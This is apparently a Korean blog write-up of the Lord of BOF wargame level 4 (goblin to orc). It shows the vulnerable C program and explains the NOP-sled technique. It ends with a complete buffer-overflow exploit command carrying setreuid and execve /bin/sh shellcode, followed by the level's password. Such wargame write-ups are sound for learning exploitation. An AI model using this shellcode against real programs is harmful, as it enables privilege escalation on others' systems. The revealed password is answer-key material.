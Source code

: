 ```yaml
---
date: '2022-10-14'
before : '2022-10-13'
after : '2022-10-15'
title: '시스템 해킹(20) : FTZ LOB LEVEL 4'
categories: ['C-SEC', 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에 

드디어 새로운 형식의 BOF문제다! 재미있게 한 번 풀어보자.

### 1. Level 4 : Goblin -> Orc

코드를 확인해보니, egghunter라는 녀석이 모든 환경변수를 초기화하고있다.

```
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
```
일단 어셈블리도 확인해보고 어떻게 할지 알아보도록 하자.
```
0x8048500 <main>:       push   %ebp
0x8048501 <main+1>:     mov    %ebp,%esp
0x8048503 <main+3>:     sub    %esp,44
0x8048506 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804850a <main+10>:    jg     0x8048523 <main+35>
0x804850c <main+12>:    push   0x8048630
0x8048511 <main+17>:    call   0x8048410 <printf>
0x8048516 <main+22>:    add    %esp,4
0x8048519 <main+25>:    push   0
0x804851b <main+27>:    call   0x8048420 <exit>
0x8048520 <main+32>:    add    %esp,4
0x8048523 <main+35>:    nop
0x8048524 <main+36>:    mov    DWORD PTR [%ebp-44],0x0
0x804852b <main+43>:    nop
0x804852c <main+44>:    lea    %esi,[%esi*1]
0x8048530 <main+48>:    mov    %eax,DWORD PTR [%ebp-44]
0x8048533 <main+51>:    lea    %edx,[%eax*4]
0x804853a <main+58>:    mov    %eax,%ds:0x8049750
0x804853f <main+63>:    cmp    DWORD PTR [%eax+%edx],0
0x8048543 <main+67>:    jne    0x8048547 <main+71>
0x8048545 <main+69>:    jmp    0x8048587 <main+135>
0x8048547 <main+71>:    mov    %eax,DWORD PTR [%ebp-44]
```

### 2. NOP SLED

오늘은 NOP SLED라는 방식을 활용할 것이다. NOP SLED란 컴퓨터 기계단에서 포인터가 다음 실행될 코드의 주소를 가리킬 때, \x90 (NOP)가 있으면 SLED, 썰매를 타듯이 계속 다음 코드를 자동으로 포인팅하여 실행(혹은 디코딩)가능한 내용물이 나오기까지 계속해서 주소를 이동시키는 로직을 이용한 방법이다.
#
#
우리가 두 개의 문자열을 매개변수로 남긴다고 가정해보자. (물론 프로그램에서 매개변수를 하나로 제한한다면 다른 방법을 생각해야 할 것이다.) 
#
#
gdb를 활용하면 얼마든지 두 매개변수의 주소를 구할 수 있다. (예를 들어 두놈 다 \x90을 실컷 넣어놓고 실행시킨 다음 디버깅을 하면서 00000000이 계속해서 나오는 지점을 확인하면 된다.)
#
#
단, 이는 우리가 실제 문제 코드를 실행시킨 게 아닌, 코드를 카피해서 만든 프로그램으로 진행해야하기에 완벽하게 주소를 알아내는 것은 불가능하다. 하지만 똑같은 코드이기에 **대략적인** 주소는 확인 가능하다. 
#
#
여기서 NOP SLED가 등장한다. 대충 여기인 것 같다면, 그 곳부터 \x90을 잔뜩 넣은 후 그 후에 쉘코드를 꽂아주자. 그러면 실제 프로그램에서도  **"대충 그 어디쯤에 들어간"** 두 번째 매개변수가 쉘을 실행시켜 줄 것이다.
#
# 
하지만 이걸 위해서는 당연히 첫 번째 매개변수에 늘 하던것과 똑같이 bof를 발생시켜 return지점을 바로 저 두 번째 매개변수의 대략적인 시작지점으로 바꿔줘야 한다. 


### 3. 실제 흐름

일단 orc파일을 복사해서 실행파일로 만든 다음 그 파일을 gdb로 디버깅한다.

```
gdb copy
b * main //main 함수 시작하자마자 브레이크 포인트.
r `python -c "print '\x90'*44 + '\xff\xff\xff\xbf'"` ``python -c "print '\x90' * 200"` 
// 실행시킬 때 실제 버퍼오버플로우처럼 44 + 4바이트 리턴주소를 넣어준다.

//실행하면 브레이크 포인트가 걸렸을 것이다. 레지스터의 구조를 확인하기 위해 다음과 같은 명령어를 입랙현다

x/200x $ebp
```
여기서 내가 gdb로 도대체 무슨짓을 한건지 모르겠다면, gdb 디버거에 대해 조금 공부해보자. b는 브레이크포인트고, r은 브레이크 포인트 건 상태에서 코드를 실행하기 위한 명령어일 뿐이다. 


하여튼 마지막 코드를 입력하면 현제 레지스터 주소의 점유현황이 (꽤 길게) 나타난다. 이 중에서 00000000이 쭉 이어지는 부분을 찾으면 그곳이 대략적인 두 번째 매개변수의 주소다.


이렇게 확인한 두 번째 매개변수의 주소는 다음과 같다 :
```
\xc8\xfb\xff\xbf
```

따라서 익스플로잇 : 

```
 ./orc `python -c "print '\x90'*44 + '\xc8\xfb\xff\xbf'"` `python -c "print '\x90' * 200 + '\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'"`
 ```
 
 비밀번호 : cantata

 ---
## Source

- 해커스쿨 FTZ
- Me!
